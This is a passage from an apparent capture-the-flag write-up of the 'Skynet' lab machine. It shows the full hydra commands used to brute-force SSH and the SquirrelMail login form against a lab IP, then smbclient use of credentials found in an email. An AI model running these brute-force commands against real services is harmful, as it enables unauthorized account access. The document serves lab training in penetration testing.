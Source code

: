 From here we can try the discovered username ("milesdyson") and password list on the services requiring authentication - the SSH server, the `/squirrelmail` login page, and the milesdyson SMB share.

## 3. Service bruteforcing - hydra

Attempting to bruteforce SSH with hydra fails with the `log1.txt` password list :

```console
┌──(kali㉿kali)-[~/Documents/tthm/skynet]
└─$ hydra -l milesdyson -P log1.txt $IP ssh
...snip...
[DATA] attacking ssh://10.10.191.241:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-04 21:41:49
```

but an attack on the `/squirrelmail` login page using hydra's http-post-form mode discovers a valid password :

```console
┌──(kali㉿kali)-[~/Documents/tthm/skynet]
└─$ hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect"
...snip...
[80][http-post-form] host: 10.10.191.241   login: milesdyson   password: PASSWORD
1 of 1 target successfully completed, 1 valid password found
```

Connecting to the inbox, we find 2 fluff emails ([although the story they reference is pretty interesting](https://www.theatlantic.com/technology/archive/2017/06/artificial-intelligence-develops-its-own-non-human-language/530436/)) and an email from `skynet@skynet` that refers to the password reset mentioned in `attention.txt` and reveals SMB credentials for the milesdyson user :

```
We have changed your smb password after system malfunction.
Password: PASSWORD
```

## 4. Directory discovery - smbclient

We return to smbcliet, connecting to the milesdyson share as the milesdyson user with the discovered credentials : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/skynet]
└─$ smbclient \\\\$IP\\milesdyson --user=milesdyson
Enter WORKGROUP\milesdyson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 05:05:47 2019
  ..                                  D        0  Tue Sep 17 23:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 05:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 05:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 05:05:14 2019
  notes                               D        0  Tue Sep 17 05:18:40 2019
```

